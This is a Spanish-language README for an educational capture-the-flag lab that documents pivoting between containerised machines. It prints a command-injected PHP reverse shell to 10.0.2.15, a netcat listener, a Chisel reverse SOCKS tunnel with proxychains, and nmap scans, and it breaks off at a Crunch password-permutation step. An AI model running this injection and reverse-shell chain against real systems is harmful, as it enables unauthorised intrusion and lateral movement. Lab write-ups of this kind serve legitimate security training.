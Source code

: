 # CTF-4
*Capture the flag* donde se trabaja el *pivoting* entre máquinas de la misma red, *reverse shell*, escucha de puertos, montaje de un servidor con *Python*.
<div>
  <img src="https://img.shields.io/badge/-Kali-5e8ca8?style=for-the-badge&logo=kalilinux&logoColor=white" />
  <img src="https://img.shields.io/badge/-PHP-777BB4?style=for-the-badge&logo=php&logoColor=white" />
  <img src="https://img.shields.io/badge/-Netcat-F5455C?style=for-the-badge&logo=netcat&logoColor=white" />
  <img src="https://img.shields.io/badge/-python-3776AB?style=for-the-badge&logo=python&logoColor=white" />
  chisel
  Proxychains
  Crunch
  <img src="https://img.shields.io/badge/-Docker-2496ED?style=for-the-badge&logo=docker&logoColor=white" />
</div>
## Objetivo

Explicar la realización del siguiente _Capture the flag_ dentro del mundo educativo. Se pretenden conseguir un archivo (_flags_), dentro del entorno del usuario básico. Para ello, se deberá pivotar desde la máquina resuelta en el [CTF-3](https://github.com/Cibersegurata39/CTF-3) a la máquina de este nuevo reto y una vez dentro pasar al usuario básico.

## Que hemos aprendido?

- Realizar un *pivoting* entre dos máquinas de la misma red.
- Realizar una *reverse shell* con código *php*.
- Poner puertos en escucha.
- Montar un sevidor fácilmente con *Python*.
- Montar un diccionario a partir de una secuencia dada de caracteres.

## Herramientas utilizadas

- *Kali Linux*.
- *Pivoting*: *Python3*, *Chisel*, *Proxychains*.
- Penetración: *Netcat*, *Crunch* . 

## Steps

### Vulnerabilidades explotadas

Partiendo del primer formulario encontrado en el CTF-3, ejecuto una *reverse shell* con código **php**, indicando la dirección IP y el puerto de la máquina local que estará escuchando.

<code>;ls;php -r '$sock=fsockopen("10.0.2.15",1234);exec("/bin/sh -i <&3 >&3 2>&3");';</code>

![image](https://github.com/user-attachments/assets/8ec4b208-1dd2-47d4-8f79-9155f6f56acf)

Para poner en escucha el puerto 1234, utilizo **Netcat**.

<code>nc -lvnp 1234</code>

La conexión ha sido un éxito, la cual muestra la IP de la máquina 172.18.0.2.

![image](https://github.com/user-attachments/assets/9eaefd34-4035-4094-af1e-db536c3b4a07)

Para **pivotar** entre máquinas, es necesario descargar el programa **Chisel** en la máquina atacante. Puesto que también se necesita en la máquina que acabamos de penetrar (máquina intermedia, a partir de ahora), se crea un servidor con **Pyhotn3** desde la carpeta donde se encuentra *Chisel* (máquina atacante). Este sevidor es necesario para poder descargar el programa en la máquina intermedia, ya que no dispone de esta herramienta.

<code>python3 -m http.server 8080</code>

![image](https://github.com/user-attachments/assets/7f85fb6c-c443-49e6-9a1f-174109bea616)

Puesto que que tampoco dispone de los binarios <code>wget</code> o <code>curl</code>, se utiliza un pequeño código *php* para realizar la descarga ('descarga_archivo.php'). En el código se indica la dirección donde se encuentra el *Chisel* (máquina atacante), así como donde guardarlo (máquina intermedia). Se guarda en la carpeta '/tmp' pues desde ahí se tienen permisos de ejecución.

Una vez descargado y otorgados los permisos de ejecución, lo lanzo desde la máquina anfitriona, como servidor, y pongo en escucha el puerto 3456 (por ejemplo).

<code>chisel server --reverse -p 3456</code>

![image](https://github.com/user-attachments/assets/a40614a5-773f-4d32-881f-1c3463a639bc)


También lo lanzo en la máquina intermedia, como cliente, indicándole la dirección IP y puerto de la máquina atacante. Además, con ‘R:socks’ indico que me de acceso a todos las IPs/puertos con las que esté conectada la máquina intermedia (conexión con la máquina víctima a la que se pretende conseguir conectar).

<code>. /chisel client 10.0.2.15:3456 R:socks</code>

![image](https://github.com/user-attachments/assets/d88edd57-7d66-4665-a25d-8ea6fcf3f85d)

Ahora la máquina anfitriona, por medio del puerto 3456, tiene visibilidad de las posibles conexiones de la máquina intermedia, como podría ser la máquina final.

Para hacer un barrido de IPs con el objetivo de encontrar la última máquina, debo utilizar la herramienta **Proxychains** para utilizar el túnel creado con *Chisel*. Se le indica esta dirección IP y puerto creados del puerto (se muestra en la *shell* de la máquina atacante después de realizar la conexión). Esto se modifica desde el archivo de configuración.

<code>sudo nano /etc/proxychains4.conf</code>

Se descomenta la línea que contiene *Dynamic_chain* y se comenta la línea que contiene *static_chain*. Además, al final del archivo se añade ‘socks5 127.0.0.1 1080’ (dirección perteneciente al túnel creado).

![image](https://github.com/user-attachments/assets/1410a5c7-1d8a-4d02-bbee-368ca7cb7b7b)

Para utilzar ahora este túnel se utiliza el comando *Proxychains* y se lanza un *nmap* para hacer el barrido de IPs con la dirección de la máquina intermedia y así encontrar aquellas máquinas que estén en su misma red. Al utilizar *proxychains* sería como lanzar el *nmap* desde la propia máquina intermedia. Se indica que no haga reconocimiento *ping* y finalmente, la máquina final es encontgrada en la dirección 172.18.0.3.

<code>proxychains nmap 172.18.0.0/24 -Pn</code>

![image](https://github.com/user-attachments/assets/f133cc92-395e-4f6e-a3da-e846edcd3917)

Ahora se puede realizar un ataque más centrado en esta máquina y buscar qué puertos tiene abiertos y qué versiones corren en ellos.

<code>proxychains nmap 172.18.0.3 -Pn -sV -p-</code>

![image](https://github.com/user-attachments/assets/241f93d4-06fe-4b98-8ff3-f47a3f37af44)

Se encuentra un servicio *SSH* en el puerto 2222, por lo que se intenta la conexión por medio de *proxychains*. Se encuentra el inconveniente de que ninguna de las contraseñas encontradas en la base de datos no sirven para tener acceso. Igual que en el anterior CTF (CTF-3) se encontró, por medio de *SQLMap*, la tabla con la bandera correspondiente, también se encontró una tabla con diferentes usuarios y contraseñas.

| Usuario | Contraseña |
| ------- | ---------- |
|  |  |
|  |  |
|  |  |
|  |  |
|  |  |
En tal caso, voy a probar diferentes combinaciones de los caracteres de cada contraseña para ver si alguna es la correcta, empezaré con el usuario Pablo pues es el usuario correcto más probable. Para conseguir la permuta de caracteres hago uso de la herramienta Crunch.
